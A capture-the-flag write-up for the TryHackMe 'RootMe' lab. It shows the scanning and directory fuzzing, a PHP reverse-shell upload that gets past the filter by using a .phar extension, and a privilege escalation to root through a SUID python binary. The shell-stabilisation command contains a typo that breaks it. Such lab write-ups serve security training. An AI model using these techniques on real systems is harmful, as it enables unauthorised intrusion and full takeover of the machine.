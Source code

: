 ```bash
# PLATFORM          . THM
# CTF NAME          . RootMe
# DESCRIPTION       . A ctf for beginners, can you root me?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/rrootme
```

```bash
sudo nmap -sSVC -T5 10.10.170.43 -p- -oN ~/workspace/ctf_workspace/rootme
```

```
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

- While the nmap scan was looking, I took checked to see if there's a webserver running on port 80; 

- I thought that it might reveal useful information if I bruteforce a bit for endpoints since there were not any particular useful information on the `index.html` page.

```bash
ffuf -u http://10.10.170.43/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt  -t 100
```

```
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 616, Words: 115, Lines: 26]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
```

- There was nothing in `uploads`, but `panel` provided an upload form.

- I tried uploading [Pentestmonkey's PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell), but `.php` was filtered.

- I managed to bypass that filter by changing the extension from `.php` to `.phar`. 

- We got a reverse shell as `www-data` and this is enough to grab the first flag from `/var/www`

- Then, I've stabilized the shell and started looking for privilege escalation vectors.

```stabilisation
python3 -c 'import pty;.pty.spawn("/bin/bash")'
export TERM=xterm
<CTRL+Z>
stty raw -echo; fg
```

- While I was manually enumerating the system for possible escalation paths, I've checked for any SUID-set binaries.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

```
-rwsr-sr-x   1 root     root        3665768 Aug  4  2020 /usr/bin/python
```

- Python showed up - and this is not common, so I've checked it against [GTFObins](https://gtfobins.github.io/) for possible escalation.

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```sh
# whoami
root
```

- The last flag was found in `/root/root.txt`.

